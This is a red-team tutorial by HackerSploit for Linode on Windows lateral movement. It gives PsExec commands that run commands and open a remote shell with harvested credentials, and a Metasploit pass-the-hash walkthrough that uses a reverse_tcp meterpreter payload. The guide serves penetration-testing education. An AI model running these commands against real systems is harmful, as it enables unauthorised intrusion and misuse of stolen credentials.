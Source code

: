```yaml
---
slug: windows-red-team-lateral-movement-techniques
author:
  name: HackerSploit
  email: hackersploit@gmail.com
description: 'This guide covers the process of performing lateral movement on Windows systems.'
keywords: ['security']
tags: ['security']
license: '[CC BY-ND 4.0](https://creativecommons.org/licenses/by-nd/4.0)'
published: 2021-11-03
modified_by:
  name: Linode
title: "Windows Red Team Lateral Movement Techniques"
h1_title: "Windows Red Team Lateral Movement Techniques"
enable_h1: true
contributor:
  name: HackerSploit
---
```


{{< content "hackersploit-red-team-series-note-shortguide" >}}

{{< content "hackersploit-caution-shortguide" >}}

## Before You Begin

In order to follow along with the tools and techniques utilized in this document, you will need to use one of the following offensive Linux distributions:

- Kali Linux
- Parrot OS

The following is a list of recommended technical prerequisites that you will need in order to get the most out of this course:

- Familiarity with Linux system administration.

- Familiarity with Windows.

- Functional knowledge of TCP/IP.

- Familiarity with penetration testing concepts and life-cycle.

Note: The techniques and tools utilized in this document were performed on Kali Linux 2021.2 Virtual Machine

## MITRE ATT&CK Lateral Movement Techniques

Lateral Movement consists of techniques that adversaries use to enter and control remote systems on a network. Following through on their primary objective often requires exploring the network to find their target and subsequently gaining access to it. Reaching their objective often involves pivoting through multiple systems and accounts to gain. Adversaries might install their own remote access tools to accomplish Lateral Movement or use legitimate credentials with native network and operating system tools, which may be stealthier.

![MITRE ATT&CK lateral movement techniques](mitre-attack-lateral-movement-techniques.png "MITRE ATT&CK lateral movement techniques")

The following is a list of key techniques and sub techniques that we will be exploring:

- Remote Services

- Alternate Authentication

Our objective is to utilize clear-text passwords and hashes that we extracted to facilitate lateral movement through legitimate authentication protocols/methods.

## Lateral Movement With PsExec

PsExec is a lightweight telnet-replacement that lets you execute processes on other systems, complete with full interactivity for console applications, without having to manually install client software. PsExec's most powerful uses include launching interactive command-prompts on remote systems and remote-enabling tools like IpConfig that otherwise do not have the ability to show information about remote systems.

We can use the PsExec utility to authenticate with the target system legitimately and run arbitrary commands or launch a remote command prompt.

We will be running PsExec from our Windows VM as you may encounter a few issues when running PsExec on Linux with Wine.

Note: We will be utilizing the credentials we extracted from the Windows 10 target system in the Credential Access Video.

1. You can download PsExec from the following link: https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

1. After downloading PsTools archive, you will need to extract it and open a Windows command prompt in the extracted folder.

1. We can execute a command on the target system with PsExec by specifying the computer name/IP address, username, and password. This can be done by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> ipconfig

    In this case, we will execute the ipconfig command on the target system in order to verify that we can authenticate successfully with PsExec.

    ![PsExec - execute ipconfig command on target](psexec-execute-ipconfig-command-on-target.png "PsExec - execute ipconfig command on target")

    As highlighted in the preceding screenshot, PsExec authenticates with the target system, executes the ipconfig, and provides us with the output of the command.

1. Alternatively, we can also initiate a remote command prompt session with the target system by running the following command:

        ./PsExec64.exe \\<TARGET-IP> -u Administrator -p <PASSWORD> cmd.exe

    As highlighted in the following screenshot, we are able to authenticate successfully and obtain a remote command shell session on the target system.

    ![PsExec - remote shell](psexec-remote-shell.png "PsExec - remote shell")

    We can now utilize the remote command session to scan and ping for other hosts on the network that we can pivot to.

## Pass-the-Hash

If you weren’t able to extract any cleartext passwords from the target system, you can utilize the pass-the-hash Metasploit module that leverages PsExec in order to authenticate with SMB (Server Message Block) using a user account’s NTLM hash.

Pass-the-hash is a technique that is used by attackers to authenticate to a remote host by using the underlying NTLM or LanMan hash of a user's password, instead of requiring the associated plaintext password.

For this section, our target system will be running Windows 10. As a prerequisite, ensure that you have gained your initial foothold on the system and have a meterpreter session

1. The first step will involve loading the SMB PsExec Metasploit module, this can be done by running the following command on the Kali terminal:

        use exploit/windows/smb/psexec

1. After loading the module, you will need to configure the module payload, this can be done by running the following command:

        set payload windows/x64/meterpreter/reverse_tcp

1. You will also need to set the SMBPass and SMBUser options with the NTLM hash and name of the user account. This can be done by running the following commands:

        set SMBUser <USERNAME>

    Note: In this case, we will be setting the “SMBUser” option to “Administrator”.

        set SMBPass <NTLM Hash>

1. Finally, you will need to set the target system IP address, this can be done by running the following command:

        set RHOSTS <TARGET-IP>

1. After configuring the options, we can execute the module by running the following command:

        run

1. If authentication is successful, you should receive a new meterpreter session with the privileges of the user you authenticated with as shown in the screenshot below.

    ![Meterpreter session from PsExec with Pass-the-Hash](meterpreter-session-from-psexec-with-pass-the-hash.png "Meterpreter session from PsExec with Pass-the-Hash")